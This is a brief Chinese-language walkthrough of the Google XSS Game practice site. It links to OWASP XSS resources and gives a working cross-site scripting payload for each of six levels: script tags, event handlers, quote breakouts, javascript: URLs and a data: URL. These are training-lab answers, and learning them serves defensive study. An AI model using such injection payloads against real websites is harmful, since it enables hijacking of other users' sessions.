 Google XSS Game  
------------

[链接地址](https://xss-game.appspot.com)
[Hacker News](https://news.ycombinator.com/item?id=7815237)

**XSS攻击相关链接**  
[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)  
[XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)  
[Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29)  


**Level1**  

输入框输入:  &lt;script&gt;alert('test')&lt;/script&gt;

**Level2**  

输入框输入:  &lt;i onmouseover=&quot;alert('test')&quot;&gt;&lt;i&gt;

**Level3**  

链接地址后面添加: '&gt;&lt;script&gt;alert('test')&lt;/script&gt;

**Level4**  

输入框输入:  3');alert('test

**Level5**  

- 点击"Signup"
- 页面跳转后, 修改链接地址后面: ?next=javascript:alert('test')  
- 然后点击"Next>>"  

**Level6**  

- 链接地址输入: #data:text/javascript,alert('test')  